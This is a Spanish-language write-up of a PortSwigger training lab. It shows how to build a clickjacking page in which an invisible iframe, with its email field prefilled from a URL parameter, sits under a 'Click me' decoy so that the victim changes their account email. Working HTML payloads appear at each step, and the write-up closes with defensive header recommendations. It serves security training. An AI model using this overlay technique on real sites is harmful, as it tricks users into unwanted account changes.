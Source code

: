 # Lab: Clickjacking with form input data prefilled from a URL parameter

This lab extends the basic clickjacking example in `Lab: Basic clickjacking with CSRF token protection`. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/fda2376e-c775-4d09-a76d-f9441833f9c0)

Objetivo del laboratorio:

Hacer que el usuario víctima, al hacer clic en un señuelo que dice "Click me", actualice su dirección de email por una controlada por el atacante, aprovechando que el formulario:

- Se puede prellenar con parámetros en la URL.

- Puede ser activado visualmente mediante clickjacking.

Procedemos a autenticarnos con nuestras credenciales `wiener:peter`, en el dashboard del usuario vemos que tenemos la funcionalidad de `Update email`:
![image](https://github.com/user-attachments/assets/68c2680e-3eed-4e72-ae2c-9781dd823585)

El siguiente paso es verificar que al ingresar una dirección de correo y presionar “Update email”, se envía un formulario prellenado, posiblemente con un CSRF token.

Cambiamos el mail por `test@test.com`:
![image](https://github.com/user-attachments/assets/4d0619fa-f003-4c81-9740-d70531fb93b6)

Observamos el código fuente y vemos lo siguiente:
![image](https://github.com/user-attachments/assets/6cd03705-1106-442e-9479-bd0372375e87)

Lo primero que podemos observar de esto es lo siguiente:

- Envía una petición POST al endpoint `/my-account/change-email` con 2 parámetros (`email` y `csrf="CVx76vmrM8PTmiqRpDDdESV1Z9GkHBQI"` )
  
Probamos si el formulario admite prellenado usando parámetros en la URL. Entonces, de ser cierto, el campo `email` en el formulario:
```html
<input required type="email" name="email" value="">
```
...puede ser prellenado vía parámetro GET. 
Esto indica que si accedemos a:
```text
https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker.com
```
...el servidor toma ese valor de email desde los parámetros de la URL y lo utiliza para prellenar el campo del formulario. Esto ocurre sin intervención del usuario, lo cual es fundamental para automatizar el ataque de clickjacking.

Hacemos la prueba y validamos que efectivamente existe la precarga del formulario usando parámetros en la URL:
![image](https://github.com/user-attachments/assets/7827582b-0a77-4b77-9053-9dc5948c1496)

Esto se puede combinar con un ataque de clickjacking para presentar un formulario listo para enviar, sobre el cual el usuario haga clic sin saberlo.


Al igual que en el laboratorio anterior, accedemos al Exploit server y procedemos a generar nuestra página atacante.
Iniciamos ingresando el siguiente código:
```html
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```
![image](https://github.com/user-attachments/assets/1c02169f-7865-4d1f-ad44-f60f2c937d04)

Seguimos avanzando, ahora agregamos un "botón fake" usando el elemento `<div>` y le damos estilo tanto al `iframe` como al `div`:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 400px;
    left: 80px;
    z-index: 1;
  }
</style>

<div>Test me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```
![image](https://github.com/user-attachments/assets/9750adde-fb29-46de-8df2-adfd737749e0)


El siguiente paso es alinear el señuelo con el botón real:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 450px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>Click me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```

Vemos que los elementos se superponen correctamente y efectivamente el mail está precargado en el formulario:
![image](https://github.com/user-attachments/assets/34eeab15-dd15-48de-89c2-5d67aafd8da4)


Ahora procedemos a bajar la opacidad y a cambiar el mail por un mail que no haya sido registrado:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 450px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>Click me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=prueba@prueba.com"></iframe>
```

Vemos que el `iframe` es imperceptible:
![image](https://github.com/user-attachments/assets/579c6c0c-6a26-4ead-a491-2ee0c6ad42bb)


Hacemos click en `Store` y luego en `Deliver exploit to victim` y resolvemos el laboratorio:
![image](https://github.com/user-attachments/assets/f66164af-07b1-4ff6-bd47-195cec0eee81)


---

## ✅ Conclusiones

Este laboratorio demuestra cómo un formulario vulnerable a prellenado por URL puede ser explotado mediante clickjacking para modificar información sensible de un usuario autenticado. El hecho de que el campo de email pueda ser controlado por un parámetro GET y que el botón de envío no esté protegido visualmente permite que un atacante incruste el formulario en un `iframe` transparente y lo superponga con un señuelo visible, logrando que el usuario realice la acción sin darse cuenta.

Incluso con un token CSRF presente, si el formulario está dentro del contexto del dominio legítimo, el envío es válido. Este tipo de ataque explota la confianza del usuario en la interfaz visible y la falta de restricciones en el embebido del contenido.

---

## 🛡️ Recomendaciones

* Incluir cabeceras HTTP que prevengan el embebido en iframes:

  ```http
  X-Frame-Options: DENY
  Content-Security-Policy: frame-ancestors 'none';
  ```

* Evitar que campos sensibles como `email` puedan ser prellenados vía parámetros GET, especialmente si están acompañados de acciones como `submit`.

* Utilizar confirmaciones adicionales para cambios importantes de datos (por ejemplo, pedir la contraseña actual para modificar el correo).

* Considerar pruebas específicas de UI redressing/clickjacking durante auditorías de seguridad.

---

## 📚 Lecciones aprendidas

* **Clickjacking puede explotar cualquier acción con impacto, incluso si está protegida por tokens CSRF.**
* **Permitir el prellenado de formularios desde la URL puede tener consecuencias críticas si se combina con técnicas visuales.**
* **El diseño de la interfaz debe contemplar amenazas visuales, no solo de backend.**
* **El uso de `iframe` con `opacity` y `z-index` puede convertir una acción legítima en un vector de ataque silencioso.**
* **Las pruebas en navegadores modernos como Chrome son esenciales, ya que comportamientos como detección de transparencia pueden variar.**

---

